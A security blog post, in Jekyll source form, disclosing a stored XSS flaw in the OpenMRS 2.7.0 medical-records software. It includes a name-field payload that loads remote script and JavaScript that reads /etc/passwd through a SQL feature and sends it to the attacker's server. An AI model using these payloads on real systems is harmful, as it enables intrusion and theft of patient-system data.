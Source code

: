 ```yaml
---
layout: post
title: From XSS to Local File Read Bypassing Payload Length Restrictions
excerpt_separator: <!--more-->

---
```


In this post, we will discuss a stored XSS vulnerability found in one of the popular opensource medical records management software *OpenMRS 2.7.0*. The security research conducted for this software revealed many critical vulnerabilities ranging from Authenticated Remote Code Execution via Java Deserialization to Privilege Escalation and had been reported to vendor around 9 months back. 
<!--more-->

We will have a look at how a user with `clerk` privileges can leverage Jquery to overcome length restrictions in a Stored XSS payload and can read local system files by exploiting one of the application features.

## Load .js with getScript()

In this case, the exploit vector was any patient's `fullname` but each field had a charset limitation of around 50 characters and as our payload was gettting placed inside `html` context so it was impossible to weaponize our exploit to exfiltrate any information and I am really not a fan of showing popups because in real world if someone is going to leverage a client side exploit they certainly won't show any popups ;P.

So for the sake of creating a nice POC, I setlled with the following payload where we are using JQuery's `getScript()` function to load an external JavaScript from attacker's server.

```html
foo</script><script>$.getScript(String.fromCharCode(104,116,116,112,58,47,47,120,115,115,47,116,46,106,115),1)</script>bar
```

We divided the payload across name fields of patient's name, overcomming the payload length restrictions.

   ```javascript
      givenName = foo</script><script>$.getScript(
      middleName = String.fromCharCode(104,116,116,112,58,47,47,120,
      familyName = 115,115,47,116,46,106,115),1)</script>bar
   ```

![](/assets/images/xss_to_lfr/1.png)


The reason of having `foo` and `bar` in our payload was to pose a legitimate Patient name and hide our payload from Patient search results.

![](/assets/images/xss_to_lfr/2.png)

## Reading Local System Files

Now comes the interesting part, the application provides a feature name `CohortBuilder` which allows `Admin` users to execute `asynchronous` SQL queries and fetch results by triggering `getLastResult.dwr` http request. After understanding this workflow, we wrote the following javascript exploit and hosted it on our server.


{% highlight javascript %}

function x()
    {
  	var x1 = new XMLHttpRequest();
  	x1.open("POST", "http:\/\/openmrs:8081\/openmrs-standalone\/cohortBuilder.form", true);
  	x1.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
  	x1.withCredentials = true;
  	var body = "method=addDynamicFilter&filterClass=org.openmrs.module.reportingcompatibility.reporting.SqlPatientFilter&vars=query%23java.lang.String&query=select+hex%28load_file%28%27%2Fetc%2Fpasswd%27%29%29%3B";
  	var aBody = new Uint8Array(body.length);
  	for (var i = 0; i < aBody.length; i++)
  	  aBody[i] = body.charCodeAt(i); 
  	x1.send(new Blob([aBody]));
  	y();
    }
   
function y()
   {
 	var r;
 	var xhr = new XMLHttpRequest();
 	xhr.open("POST", "http:\/\/openmrs:8081\/openmrs-standalone\/ms\/call\/plaincall\/DWRCohortBuilderService.getLastResult.dwr", true);
 	xhr.setRequestHeader("Content-Type", "text\/plain");
 	xhr.withCredentials = true;
 	
 	var body = "callCount=1\n" + 
 	  "page=/openmrs-standalone/cohortBuilder.list\n" + 
 	  "httpSessionId=\n" + 
 	  "scriptSessionId=2D46415AFBB2267F3E2CECC665080196135\n" + 
 	  "c0-scriptName=DWRCohortBuilderService\n" + 
 	  "c0-methodName=getLastResult\n" + 
 	  "c0-id=0\n" + 
 	  "batchId=0\n";
 	var aBody = new Uint8Array(body.length);
 	for (var i = 0; i < aBody.length; i++)
 	  aBody[i] = body.charCodeAt(i); 
 	
 	xhr.onload = function(){
 		r = xhr.response;
 		exfil(r);
 	}
 	xhr.responseType = "text";
 	xhr.send(new Blob([aBody]));
   }
function exfil(r)
   {
 	var x1 = new XMLHttpRequest();
 	x1.open("POST", "http:\/\/localhost:80\/", true);
 	x1.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
 	x1.withCredentials = true;
 	var body = r;
 	var aBody = new Uint8Array(body.length);
 	for (var i = 0; i < aBody.length; i++)
 	  aBody[i] = body.charCodeAt(i); 
 	x1.send(new Blob([aBody]));
   }
   x()
{% endhighlight %}


Now, when an `Admin` user clicks on the search result and then `Edit` the patient details as shown, the application executes our payload and send the *hex encoded* contents of `/etc/passwd` file to our server.

![](/assets/images/xss_to_lfr/3.png){: .center-image }

![](/assets/images/xss_to_lfr/final.jpg)

![](/assets/images/xss_to_lfr/4.png)

